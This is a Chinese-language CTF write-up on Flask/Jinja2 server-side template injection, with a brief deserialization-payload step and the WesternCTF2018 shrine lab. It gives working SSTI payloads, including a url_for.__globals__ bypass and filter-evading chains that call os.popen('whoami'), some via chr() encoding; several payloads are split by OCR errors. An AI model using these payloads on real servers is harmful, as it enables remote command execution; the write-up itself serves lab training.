查看页面源代码发现有一个文件，进行下载，发现代码中有序列化构造payload

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJibVXD3ULCk234YXWEz0P9zDPbLYLqYKib12963Wib5Edibcw7DuQrc78goDgJCQ4MJ4Dvl9QOO2UWHyA%2F640%3Fwx_fmt%3Dpng)

查看你刚才那个页面，将输入框的 hidden 属性删掉，将 payload 粘进去提交。flag成功显示-

SSTI:

SSTI(Server-Side Template Injection) 服务端模板注入，就是服务器模板中拼接了恶意用户输入导致各种漏洞。

1.ssti漏洞的检测

比如发送{{7\*7}}返回49

2.漏洞利用

通过某种类型(字符串:""，list:\[\]，int：

1)开始引出，class找到当前类，mro或者base找到object，前边的语句构造都是要找这个。然后利用object找到能利用的类。

config.items()可以查看服务器的配置信息

class返回调用参数类型

base返回基类

mro 返回一个tuple对象，其中包含了当前类对象所有继承的基类，tuple中元素的顺序是MRO（Method Resolution Order） 寻找的顺序。

subclasses()对每个new-style class“为它的直接子类维持一个弱引用列表”，之后“返回一个包含所有存活引用的列表” ，返回子类''.

class.mro\[2\] <class ‘object’>''.

class.mro\[2\].subclasses() 查看所有模块''.

class.mro\[2\].subclasses()\[71\].init.globals来找os类下的，init初始化类，然后globals全局来查找所有的方法及变量及参数

靶场:\[WesternCTF2018\]shrine 1

启动靶场

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJibVXD3ULCk234YXWEz0P9zDW8erg4rIJ7zshhEAibiaLaoGbe9o418cB9aNAQNfick2tr0WuJOvYltYA%2F640%3Fwx_fmt%3Dpng)

使用tplmap工具发现有过滤

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJibVXD3ULCk234YXWEz0P9zDib6UVenGqs6jKUdNDgywKYoKLmrfqque8iaicYDLAr9p8XE11p5wfk1nw%2F640%3Fwx_fmt%3Dpng)

查看源代码是对()进行了过滤，这使得很多语句无法使用，使用url\_for()绕过

    http://d8e25c11-b61d-47c0-b8b5-1078aa2e2283.node4.buuoj.cn:81/shrine/%7B%7Burl_for._globals_%7D%7D

绕过绕过中括号

#通过\_\_bases\_\_.\_\_getitem\_\_(0)（\_\_subclasses\_\_().\_\_getitem\_\_(128)）绕过\_\_bases\_\_\[0\] （\_\_subclasses\_\_()\[128\]） #通过\_\_subclasses\_\_().pop(128)绕过\_\_bases\_\_\[0\]（\_\_subclasses\_\_()\[128\]） "".\_\_class\_\_.\_\_bases\_\_.\_\_getitem\_\_(0).\_\_subclasses\_\_().pop(128).\_\_init\_\_.\_\_globa ls\_\_.popen('whoami').read()

{% set chr= ().\_\_class\_\_.\_\_bases\_\_.\_\_getitem\_\_(0).\_\_subclasses\_\_().\_\_getitem\_\_(250).\_\_init\_\_ .\_\_globals\_\_.\_\_builtins\_\_.chr %}{{().\_\_class\_\_.\_\_bases\_\_\[0\].\_\_subclasses\_\_() \[250\].\_\_init\_\_.\_\_globals\_\_.os.popen(chr(119)%2bchr(104)%2bchr(111)%2bchr(97)%2bc hr(109)%2bchr(105)).read()}}
